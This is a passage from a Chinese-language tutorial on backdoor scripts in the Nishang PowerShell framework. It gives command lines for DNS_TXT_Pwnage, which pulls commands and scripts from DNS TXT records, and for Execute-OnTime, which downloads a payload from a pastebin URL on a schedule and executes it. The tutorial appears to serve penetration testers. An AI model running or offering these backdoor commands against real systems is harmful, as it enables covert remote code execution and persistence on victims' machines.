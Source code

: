 下面解释下几个比较重要的参数：



```
CheckURL 给出一个URL地址，如果存在我们MagicString中的值就去执行Payload - 下载运行我们的脚本
PayloadURL 这个参数给出我们需要下载的Powershell脚本的地址
Arguments 这个参数指定我们要执行的函数
StopString 这个参数也会去看是否存在我们CheckURL返回的字符串，如果存在就会停止执行
```

DNS_TXT_Pwnage

利用DNS隧道来进行信息传输、通信的小技巧已经不少见了。在Nishang中也集成了一个通过DNS TXT来接收命令或者脚本的后门脚本。使用DNS_TXT_Pwnage这个脚本，我们一般需要配合Utility下的Out-DnsTxt使用。 

所以这里首先说下Out-DnsTxt的使用：

```
PS &gt;Out-DnsTxt -DataToEncode path //path处是你想编码的内容的路径
```

之后，它会生成一个编码后的文件，如下图所示

[![](https://p1.ssl.qhimg.com/t01a52d3fa454ec8307.jpg)](https://p1.ssl.qhimg.com/t01a52d3fa454ec8307.jpg)

然后我们去添加对应的TXT记录就行了，encoded.txt文件中每一行为一条记录 

添加完后我们还需要添加两条TXT记录，内容为start和stop 

添加完成后，我们就可以利用DNS_TXT_Pwnage这个脚本了 

执行方式：

```
PS &gt;DNS_TXT_Pwnage -startdomain start.test.com -cmdstring start -commanddomain command.test.com -psstring test -psdomain xxx.test.com -Subdomains 1 -StopString stop
```

具体参数的意思：



```
startdomain 会一直去检测我们指定域名的TXT记录，并把返回的记录与我们输入的cmdstring以及psstring进行比较
cmdstring 是我们任意输入的字符串，如果startdomain与我们这里输入的cmdstring值相等则执行commanddomain命令
commanddomain 创建的执行命令TXT记录的域名
psstring 是我们任意输入的字符串，如果与我们这里输入的psstring值相等则执行psdomain脚本
psdomain 是我们创建的执行脚本TXT记录的域名
Subdomains 是执行脚本创建TXT记录的个数
StopString 是任意输入的字符串，如果这里输入的字符串与startdomain中返回的记录相同将会停止执行我们的Payload
Arguments 指定要执行的函数名
```

Execute-OnTime

执行方式：

```
PS &gt; Execute-OnTime -PayloadURL http://pastebin.com/raw.php?i=Zhyf8rwh -Arguments Get-Information -Time hh:mm -CheckURL http://pastebin.com/raw.php?i=Zhyf8rwh -StopString stoppayload
```
